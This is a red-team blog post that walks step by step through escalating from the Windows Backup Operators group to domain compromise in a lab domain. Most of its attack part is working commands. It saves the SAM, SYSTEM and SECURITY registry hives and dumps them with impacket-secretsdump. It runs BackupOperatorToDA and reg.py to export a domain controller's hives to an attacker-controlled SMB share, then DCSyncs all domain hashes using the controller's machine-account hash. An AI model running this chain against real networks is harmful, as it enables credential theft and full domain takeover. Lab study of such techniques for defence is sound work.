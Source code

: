 ```yaml
---
title: "Domain Privilege Escalation Backup Operators Group"
date: 2024-02-12 00:00:00 +0000
categories: 
  - Domain Privilege Escalation
  - Active Directory
  - RedTeam
---
```


# Windows Built-in Groups 

Windows Built-in Groups are predefined groups that come preconfigured with Windows operating systems. These groups serve specific purposes and are used for managing permissions, access, and security within the Windows environment. Some common built-in groups include:

1. Administrators: Members of this group have full control over the computer. They can perform administrative tasks, install software, modify system settings, and manage other users and groups.
2. Users: Regular users who have limited privileges on the system. They can use most software and change system settings that do not affect other users or the security of the computer.
3. Guests: Limited access accounts for users who require temporary or occasional access to the system. Guest accounts typically have very restricted permissions.
4. Backup Operators: As mentioned earlier, members of this group can perform backup and restore operations on the system, including backing up and restoring files and directories.
5. Power Users: A legacy group in older versions of Windows, members of this group had more privileges than regular users but fewer than administrators. This group is deprecated in newer versions of Windows.
6. Remote Desktop Users: Members of this group are allowed to log in to the system remotely using Remote Desktop Protocol (RDP).
7. Network Configuration Operators: Members of this group have permissions to perform network configuration tasks on the computer, such as modifying network settings and installing network drivers.
These built-in groups provide a convenient way to manage access and permissions on Windows systems, allowing administrators to assign appropriate rights to users and groups based on their roles and responsibilities.
## Backup Operators
The Backup Operators group is a built-in group in Microsoft Windows operating systems. This group is designed to grant users limited privileges to perform backup and restore operations on the system, including the ability to back up and restore files and directories, regardless of their permissions. Members of the Backup Operators group can perform tasks such as backing up the entire system, backing up files and directories, and restoring files and directories. This group is useful in environments where individuals need to perform backup and restore tasks without having full administrative privileges on the system.

### Lab Configuration 
#### Setting Up Privilege on Domain Controller


[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-1.png)](https://r00tven0m.github.io/)

Let’s configure the lab on the server to apply theory and escalated windows server privileges. Go to server manager dashboard then click on “**Tools**” then select “**Active Directory Users and Computers**

We are going to add a user Serena.Alla to the active directory security group for the demonstration. To do that, go to **“users**” select “**Serena.Alla**” and click on “**properties**”.

[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-2.png)](https://r00tven0m.github.io/)

That will open a new window where we need to click on the “ **member of** “ tab and then click on the “**add**” button to add user to any specific group.

[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-3.png)](https://r00tven0m.github.io/)
A new window will open where we need to select object types as “**Groups or Built-in security principals**” and select location to domain name which is “**cbank. local**” here. Then, we need to enter object name which is the group to that we wish to add user to. In this case, we are using the **Backup Operators’** group then click ok.

[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-4.png)](https://r00tven0m.github.io/)


We can verify whether a user is added to the backups operators’ group by simply clicking on the **members of** tab. We can see that we have successfully added user Serena.Alla to backups operators’ group.

[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-5.png)](https://r00tven0m.github.io/)



## Enumeration With PowerView.ps1

#### Enumerating AD Users

```powershell
Get-DomainUser -Identity Serena.Alla -Domain cbank.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset,lastlogontimestamp,acco
```
[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-6.png)](https://r00tven0m.github.io/)
#### Enumerating AD Groups

```powershell
Get-DomainGroupMember -Identity 'Backup Operators'
OR 
Get-DomainGroupMember -Identity 'Backup Operators' | select GroupName,MemberName,MemberDomain,GroupDistinguishedName
```


[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-7.png)](https://r00tven0m.github.io/)
#### Backing up SAM and SYSTEM,security Registry Hives

The privilege also lets us back up the SAM and SYSTEM registry hives, which we can extract local account credentials offline using a tool such as Impacket's `secretsdump.py`
```powershell
reg save hklm\sam c:\Temp\sam.sav
reg save hklm\system C:\Users\serena.alla\Documents\system.sav
reg save hklm\security C:\Users\serena.alla\Documents\security.sav
```

[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-8.png)](https://r00tven0m.github.io/)

### secretsdump.py 

```bash
impacket-secretsdump LOCAL -system system.sav -sam sam.sav
```

[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-9.png)](https://r00tven0m.github.io/)

but we get hashes local users we need get all hash DC

#### Attacking a Domain Controller  with [BackupOperatorToDA](https://github.com/mpgn/BackupOperatorToDA)

The [BackupOperatorToDA](https://github.com/mpgn/BackupOperatorToDA) is a proof of concept written in C++ which can target domain controllers using an account which is part of the Backup Operators group. The proof of concept can export the registry hives into C:\temp_ path or into a UNC share.

```powershell
net use G: \\192.168.56.1\test /u:test test
.\BackupOperatorToDA-x64.exe -t \\dc01.cbank.local -o G:\\
```
[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-11.png)](https://r00tven0m.github.io/)

#### Aonther Way Attacking a Domain Controller  with  [reg.py](https://github.com/horizon3ai/backup_dc_registry/blob/main/reg.py "reg.py")


```bash
python3 reg.py Serena.Alla:'Password123'@192.168.56.100 backup -p '\\192.168.56.1\test'
```

[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-12.png)](https://r00tven0m.github.io/)

```bash
impacket-secretsdump LOCAL -system SYSTEM -sam SAM -security SECURITY
```

[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-13.png)](https://r00tven0m.github.io/)

Nice We Can get hash MACHINE ACCOUNT `DC01$` 
Now the NTLM hash for the Domain Controller has been extracted.
Now we will provide the NT hash to the secretsdump tool along with the name of the Domain Controller to extract all users present in the Active Directory environment with their respective hashes via a file. The machine account credentials could then be used to DCSync domain credentials.

```bash
impacket-secretsdump cbank.local/'dc01$'@dc01.cbank.local -hashes :c8d2d1f95b533d6326baf3cccdb81d10
```

[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-14.png)](https://r00tven0m.github.io/)

# In Conclusion

Backup Operators is a privileged group, and should be monitored and protected in a similar manner to Enterprise/Domain administrator groups.

`We have reached the end of the article.`
